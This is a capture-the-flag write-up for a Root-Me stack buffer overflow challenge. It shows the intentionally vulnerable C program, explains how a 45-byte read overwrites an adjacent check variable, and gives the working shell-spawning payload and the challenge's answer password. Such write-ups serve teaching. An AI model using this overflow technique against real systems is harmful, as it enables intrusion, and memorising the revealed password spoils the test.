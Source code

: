 # ELF x86 - Stack buffer overflow basic 1
- Point: 5pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  25 March 2015
- Level: Very Easy
- Statement
- Environment configuration <br>
```
  PIE	    Position Independent Executable	 ✘ 
  RelRO	    Read Only relocations	         ✘ 
  NX	    Non-Executable Stack	         ✘ 
  Heap exec Non-Executable Heap	                 ✘ 
  ASLR	    Address Space Layout Randomization	 ✘ 
  SF	    Source Fortification	         ✘ 
  SRC	    Source code access	                 ✔ 
```
## Write-up:
This challenge does not require to use **GDB**. Look at the code:
```
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
- If we can change the change check's value from **"0x04030201"** to **"0xdeadbeef"**, we can pass the challenge by opening the shell. <br>
- Var **check** is declared first, after **buf**; so **check** is nearer to the top of the stack than **buf**. Beside, **buf** takes "45 bytes" input while "40 bytes" in declaration, which makes it able to override the value of **check**.<br>
### Solution:
- Fill the first 40 bytes of **buf** with arbitrary character, then with the satisfied value **"0xdeadbeef"**. <br>
 Command: `python -c "print('a'*40 +'\xef\xbe\xad\xde')"| ./ch13` <br>
 But as we see, it just open the shell and close it because there is no input. [Read here ?](https://www.root-me.org/?page=forum&id_thread=10116)<br>
 As suggested, the final payload: `(python -c "print('a'*40 +'\xef\xbe\xad\xde')";cat) | ./ch13 `<br>
 Pass: 1w4ntm0r3pr0np1s

